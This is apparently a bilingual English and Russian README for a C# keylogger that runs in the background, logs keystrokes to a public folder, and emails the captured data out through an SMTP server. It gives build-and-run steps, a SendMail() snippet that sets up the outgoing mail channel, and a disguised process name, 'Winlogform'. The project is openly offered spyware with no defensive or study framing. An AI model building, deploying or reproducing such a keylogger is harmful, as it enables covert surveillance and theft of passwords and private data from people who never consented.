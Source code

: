 # C#-Keylogger-send-email-report


Primitive keylogger on C #, running in the background with the ability to send the result to the mail.

# Using
Clone the repository and open the project in Visual Studio, fill in the mailing data, build the project and run the executable file.
The data file is stored in the folder "C: \ Users \ Public \ Log"
        
        void SendMail()
        {
            // set email from which the letter will be sent... end name
            MailAddress from = new MailAddress("mailOut.com", "Tom");
            // set your email
            MailAddress to = new MailAddress("mailIn.com");
            // smtp-server and port "mailOut.com"
            SmtpClient smtp = new SmtpClient("smtp.mail.ru", 587);
            // loggin and password
            smtp.Credentials = new NetworkCredential("mailOut.com", "password");
        }
# To exit / stop Keylogger
To exit the keylogger, go to the task manager, find the "Winlogform" process and clear the task.

#
# keylogger на C#
Примитивный keylogger на C#, работающий в фоновом режиме с возможностью отправки результата на почту.

# Использование
Клонируйте репозиторий и откройте проект в Visual Studio, заполните данные почтовой отправки, соберите проект и запустите исполняемый файл.
Файл с данными хранится в папке "C:\Users\Public\Log"
        
        void SendMail()
        {
            // отправитель - устанавливаем адрес и отображаемое в письме имя
            MailAddress from = new MailAddress("mailOut.com", "Tom");
            // кому отправляем
            MailAddress to = new MailAddress("mailIn.com");
            // адрес smtp-сервера и порт, с которого будем отправлять письмо
            SmtpClient smtp = new SmtpClient("smtp.mail.ru", 587);
            // логин и пароль
            smtp.Credentials = new NetworkCredential("mailOut.com", "password");
        }
# Выход / Остановка Кейлоггера
Для выхода из кейлоггера, перейдите в диспечер задач, найдите процесс "Winlogform" и снимите задачу.
